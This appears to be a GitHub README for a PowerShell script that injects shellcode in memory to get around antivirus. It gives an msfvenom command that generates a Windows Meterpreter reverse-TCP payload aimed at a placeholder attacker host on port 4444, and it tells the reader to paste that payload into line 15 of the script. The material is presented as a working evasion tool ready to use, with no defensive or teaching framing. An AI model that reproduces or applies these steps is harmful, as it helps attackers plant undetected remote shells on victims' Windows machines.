 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15


<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

